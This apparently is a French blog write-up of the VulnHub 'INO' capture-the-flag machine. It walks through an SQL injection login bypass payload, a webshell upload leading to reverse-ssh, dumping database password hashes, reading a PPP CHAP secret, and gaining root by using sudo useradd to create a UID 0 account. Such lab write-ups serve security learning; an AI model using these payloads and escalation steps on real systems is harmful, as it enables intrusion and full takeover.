 ```yaml
---
title: "Solution du CTF INO de VulnHub"
tags: [CTF,VulnHub]
---
```


L'auteur du [INO](https://vulnhub.com/entry/ino-101,601/) prévient que le premier accès est facile mais l'escalade de privilèges plus compliquée.

C'est parti pour l'habituel scan de ports :

```
Nmap scan report for 192.168.56.49
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Lot Reservation Management System
|_Requested resource was /lot/
|_http-server-header: Apache/2.4.38 (Debian)
```

On a donc une appli nommée *Lot Reservation Management System* qui est présente sur le serveur web.

Une recherche rapide sur exploit-db ressort une faille [Authentication Bypass ](https://www.exploit-db.com/exploits/48934) mais en regardant les détails on voit qu'il s'agit en fait d'une bête vulnérabilité SQL qui affecte le formulaire de login.

Une requête de connexion ressemble d'ailleurs à ceci :

```http
POST /lot/admin/ajax.php?action=login HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,zh;q=0.5
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=nq4hifmdouvg20o9gqo7mpk1tb
Host: 192.168.56.49
Origin: http://192.168.56.49
Pragma: no-cache
Referer: http://192.168.56.49/lot/admin/login.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

username=tes&password=ee


```

J'ai branché *sqlmap* dessus mais étrangement il ne semble pas parvenir à détecter la vulnérabilité, peut être parce que le site semble étrangement instable (*fail2ban* ?)

On peut dans tous les cas bypasser l'authentification comme indiqué dans la page exploit-db en saisissant comme utilisateur et mot de passe :

```txt
' or 1=1 limit 1 -- -+
```

Une fois connecté on trouve différents points où il est possible d'uploader un fichier et aucune vérification sur le type du fichier ne semble être présente. La page *System Settings* est une bonne candidate à l'exploitation puisqu'on peut obtenir l'URL du fichier que l'on vient d'uploader en regardant le code source de la page.

On se sert de notre webshell pour uploader reverse-ssh et on peut ainsi continuer avec un PTY :)

En regardant la liste des process on retrouve effectivement *fail2ban* qui a su faire son boulot correctement.

L'appli web a ses identifiants de BD stockés dans un fichier *db_connect.php* :

```php
<?php 

$conn= new mysqli('localhost','lot','lot','lot_db')or die("Could not connect to mysql".mysqli_error($con));
```

Dans la base SQL un seul utilisateur dont le mot de passe hashé en MD5 est *admin123* :

```sql
www-data@ino:/var/www/html/lot/admin$ mysql -u lot -p lot_db
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 27584
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [lot_db]> show tables;
+------------------+
| Tables_in_lot_db |
+------------------+
| division         |
| lots             |
| model_houses     |
| reserved         |
| system_settings  |
| users            |
+------------------+
6 rows in set (0.001 sec)

MariaDB [lot_db]> select * from users;
+----+---------------+----------+----------------------------------+------+
| id | name          | username | password                         | type |
+----+---------------+----------+----------------------------------+------+
|  1 | Administrator | admin    | 0192023a7bbd73250516f069df18b500 |    1 |
+----+---------------+----------+----------------------------------+------+
1 row in set (0.000 sec)
```

Sur le système on remarque l'existence d'un compte Unix baptisé *ppp* qui dispose d'un flag dans son *local.txt* :

`f29cea45f473ebfa834885c4ff70ec1a`

## Damn

A partir de là ça a été effectivement très long de trouver le chemin vers l'utilisateur ppp ou root.

LinPEAS ne remontait rien d'intéressant et [pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy) n'avait rien à dire non plus.

J'ai remarqué la présence d'une autre appli web sur le système et j'ai fouillé dans la base pour trouver d'autres identifiants :

```sql
MariaDB [ino]> select username, password from ino_user;
+-----------+--------------------------------------------------------------+
| username  | password                                                     |
+-----------+--------------------------------------------------------------+
| inoerp    | $2y$10$3JUPAxEZlXCilIXNFYw8E.gpZo5DTBPANCDcJ8FchR2ua9DI/cFNq |
| admin     | $2y$10$/WO8Ymjdlqi9EkCwFsacTecUTcANOPmDJF4D6hQwxhnvWXIGNibUu |
| ladmin    | $2y$10$IGPuWvc8UzbgZF.mlIrU1uLtkE/f1UZnT.F6Q1H3ab8z9RVF0CL22 |
| buyer     | $2y$10$ayQHbI49LnalTyF6eCEOp.bOMzRz5E/VnuAxB3yvgfJo06B8lJYoO |
| ani.india | $2y$10$X5cFYAhNsTdp36jXz40aAOI7ZxqXmnWAuT/6lCbI9fehUxj5SyI4i |
| newuser1  | $2y$10$jqavMFfmQzDN5TbqS9AveuZWPC.udVH4r55Yv.Ya4bOh1tmyHz0MK |
+-----------+--------------------------------------------------------------+
6 rows in set (0.001 sec)
```

Mauvaise nouvelle, c'est du bcrypt... j'ai laissé tourner un peu puis j'ai abandonné.

J'ai finalement cherché des références à *ppp* dans le dossier /etc.

```bash
www-data@ino:/etc$ grep -l -r ppp . 2> /dev/null 
./passwd-
./ppp/chap-secrets
./ppp/ip-up.d/0000usepeerdns
./ppp/ip-up
./ppp/ipv6-up
./ppp/options
./ppp/ip-down.d/0000usepeerdns
./ppp/ipv6-down
./ppp/ip-down
./group-
./subgid
./subuid
./passwd
./init.d/pppd-dns
./group
./logrotate.d/ppp
```

On a ce fichier *chap-secrets* qui ne devrait pas être lisible :

```bash
www-data@ino:/etc$ cat /etc/ppp/chap-secrets 
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
ppp     *       ESRxd7856HVJB   *
```

Le mot de passe permet de se connecter à cet utilisateur qui a une permission sudo.

```bash
ppp@ino:/etc$ sudo -l
Matching Defaults entries for ppp on ino:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ppp may run the following commands on ino:
    (root) NOPASSWD: /usr/sbin/useradd *
ppp@ino:/etc$ sudo /usr/sbin/useradd -o -u 0 -g 0 -d /root -p '$1$dLrd6la0$eLkYsdbwM3iplQ8HyAe69/' devloop
ppp@ino:/etc$ su devloop
Password:
# cd /root
# ls
proof.txt
# cat proof.txt
21bae0a12690199cde7a65bff57723a5
```

Le hash spécifié pour *adduser* a été généré avec `openssl passwd -1 -stdin`

Ce que je n'ai pas aimé sur ce CTF c'est que l'auteur réutilise un compte système avec des fichiers qui sont déjà par défaut sur le système (*ppp* correspond à *Point to Point Protocol*), ce qui rend compliqué de discerner ce qui est normal et ce qui ne l'est pas (on retrouve le dossier */etc/ppp/* sur tous les systèmes Unix).
